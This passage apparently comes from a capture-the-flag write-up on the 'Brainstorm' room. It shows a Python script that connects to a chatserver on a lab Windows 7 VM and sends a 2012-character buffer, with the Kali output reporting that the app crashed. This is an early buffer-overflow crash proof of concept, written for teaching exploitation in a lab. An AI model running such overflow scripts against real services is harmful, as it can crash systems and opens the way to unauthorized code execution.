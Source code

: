 I add my Win7 VM IP that is running the chatserver application. I also need a user and message to send the app. We've already worked out that 2012 characters will cause the app to crash. Let's just test our script works before we move on.

This is how my basic script looks now:

```text
#!/usr/bin/python 

import socket,sys

address = '192.168.0.16'
port = 9999
user = 'pencer.io'
message = 'A' * 2012

try:
        print '[+] Sending buffer'
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((address,port))
        s.recv(1024)
        s.recv(1024)
        s.send(user + '\r\n')
        s.recv(1024)
        s.send(message + '\r\n')
except:
        print '[!] Unable to connect to the application.'
        sys.exit(0)
finally:
        s.close()
```

On my Kali machine I run the script:

```text
root@kali:/home/kali/thm/brainstorm# python buffer.py 
[+] Sending buffer
```

Now switch to Win7 and we see our script connected and sent the username pencer.io

![brainstorm-connected](/assets/images/2021-02-20-11-27-41.png)

Then it sent 2012 characters, which caused the application to crash:

![brainstorm-crash](/assets/images/2021-02-20-11-29-56.png)
